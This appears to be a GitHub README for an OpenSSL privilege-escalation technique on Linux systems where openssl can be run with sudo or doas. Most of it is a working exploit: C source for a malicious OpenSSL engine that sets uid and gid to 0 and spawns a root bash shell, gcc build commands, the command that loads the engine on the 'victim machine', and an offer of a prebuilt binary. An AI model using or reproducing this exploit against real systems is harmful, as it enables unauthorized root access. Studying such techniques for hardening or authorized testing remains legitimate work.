 # openssl-privilege-escalation
How to get ROOT with openssl <br>

On kali(attacker), create a file called exploit.c with the following content: <br>
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Then execute 2 commands: <br>
`gcc -fPIC -o exploit.o -c exploit.c` <br>
`gcc -shared -o exploit.so -lcrypto exploit.o` <br>

Upload exploit.so to the victim machine then run: <br>
`sudo openssl req -engine ./exploit.so` <br>
(also worked with doas because I have tested it) <br>

I have uploaded the exploit.so, so you can just download it and run the above command without building it. <br>
